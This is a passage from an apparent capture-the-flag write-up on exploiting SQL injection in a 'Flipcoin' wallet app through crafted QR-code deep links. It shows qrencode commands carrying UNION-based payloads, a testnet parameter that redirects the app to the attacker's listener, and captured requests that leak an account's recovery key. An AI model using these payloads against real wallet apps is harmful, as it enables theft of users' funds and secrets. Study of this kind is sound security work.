 We can see that we have `id`, `address`, `currency`, `amount`, `recovery_key` parameters.
I think that the *sqli* is in the **amount** param.
So, let's try generate a *new QR* for test it.

```bash
qrencode "flipcoin://0x252B2Fff0d264d946n1004E581bb0a46175DC009?amount=0.0001/**/AND/**/id=2;--&testnet=http://192.168.1.75:8081" -o QR3.png
```
Remember set **nc** listener.
Response:
```HTTP
POST / HTTP/1.1
Host: 192.168.1.75:8081
Content-Type: application/json
Connection: keep-alive
Accept: application/json
User-Agent: Flipcoin%20Wallet/1 CFNetwork/1410.1 Darwin/22.6.0
Content-Length: 166
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Accept-Encoding: gzip, deflate

'{
    "jsonrpc": "2.0",
    "method": "web3_sha3",
    "params": [
        "1W5vKAAKmBAjjtpCkGZREjgEGjrbwERND",
        "2096edb8979a55630f3b214c21861f0e9884db4900edcb9474aacbc68f3f5e85"
    ],
    "id": 1
}'
```

The SQLi works! because we get different wallet params.
So, after many tries, this **UNION Based** payload works
```bash
qrencode "flipcoin://0x252B2Fff0d264d946n1004E581bb0a46175DC009?amount=0.0001/**/AND/**/id=10/**/UNION/**/SELECT/**/10,(SELECT/**/recovery_key/**/FROM/**/wallet/**/WHERE/**/id=2),3,4,5/**/LIMIT/**/1;--&testnet=http://192.168.1.75:8081" -o QR6.png
```
We receive
```HTTP
POST / HTTP/1.1
Host: 192.168.1.75:8081
Content-Type: application/json
Connection: keep-alive
Accept: application/json
User-Agent: Flipcoin%20Wallet/1 CFNetwork/1410.1 Darwin/22.6.0
Content-Length: 159
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Accept-Encoding: gzip, deflate

'{
    "jsonrpc": "2.0",
    "method": "web3_sha3",
    "params": [
        "BATTLE TOADS WRITING POEMS",
        "6803b53958e83e7d5f47e978b15b50974fd795e01915f4ff40644f5a0fca4a26"
    ],
    "id": 1
}'
```

We get successfully the **recovery_key** of *the account 2*!
**`BATTLE TOADS WRITING POEMS`**
Also, if you want get the '*flag*' you just need *change the `WHERE` id=2 by id=1*.

I hope you found it useful (: